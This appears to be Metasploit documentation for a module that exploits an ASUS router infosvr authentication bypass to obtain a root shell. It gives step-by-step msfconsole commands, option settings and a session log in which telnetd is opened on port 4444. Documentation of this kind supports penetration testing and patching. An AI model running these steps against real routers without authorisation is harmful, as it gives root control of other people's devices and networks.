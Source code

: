 ## Description

  This module exploits an authentication bypass vulnerability in the infosvr service running on various ASUS routers to execute arbitrary commands as `root`.


## Vulnerable Application

  The ASUS infosvr service is enabled by default on various models of ASUS routers and listens on the LAN interface on UDP port 9999. Unpatched versions of this service allow unauthenticated remote command execution as the `root` user.

  This module launches the BusyBox Telnet daemon on the port specified in the `TelnetPort` option to gain an interactive remote shell.

  This module was tested successfully on an ASUS RT-N12E with firmware version 2.0.0.35.

  Numerous ASUS models are [reportedly affected](https://github.com/jduck/asus-cmd), but untested.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/misc/asus_infosvr_auth_bypass_exec`
  3. `set RHOST [IP]`
  4. `run`
  5. You should get a *root* session


## Options


  **TelnetPort**

  The port for Telnetd to bind (default: `4444`)

  **TelnetTimeout**

  The number of seconds to wait for connection to telnet (default: `10`)

  **TelnetBannerTimeout**

  The number of seconds to wait for the telnet banner (default: `25`)

  **CommandShellCleanupCommand**

  A command to run before the session is closed (default: `exit`)

  If the session is killed (CTRL+C) rather than exiting cleanly,
  the telnet port remains open, but is unresponsive, and prevents
  re-exploitation until the device is rebooted.


## Scenarios

  ```
  msf > use exploit/linux/misc/asus_infosvr_auth_bypass_exec
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set rhost 10.1.1.1
  rhost => 10.1.1.1
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set telnetport 4444
  telnetport => 4444
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > set verbose true
  verbose => true
  msf exploit(linux/misc/asus_infosvr_auth_bypass_exec) > run 

  [*] 10.1.1.1 - Starting telnetd on port 4444...
  [*] 10.1.1.1 - Waiting for telnet service to start on port 4444...
  [*] 10.1.1.1 - Connecting to 10.1.1.1:4444...
  [*] 10.1.1.1 - Trying to establish a telnet session...
  [+] 10.1.1.1 - Telnet session successfully established...
  [*] Found shell.
  [*] Command shell session 1 opened (10.1.1.197:42875 -> 10.1.1.1:4444) at 2017-11-28 07:38:37 -0500

  id
  /bin/sh: id: not found
  # cat /proc/version
  cat /proc/version
  Linux version 2.6.30.9 (root@wireless-desktop) (gcc version 3.4.6-1.3.6) #2 Thu Sep 18 18:12:23 CST 2014
  # exit
  exit
  ```

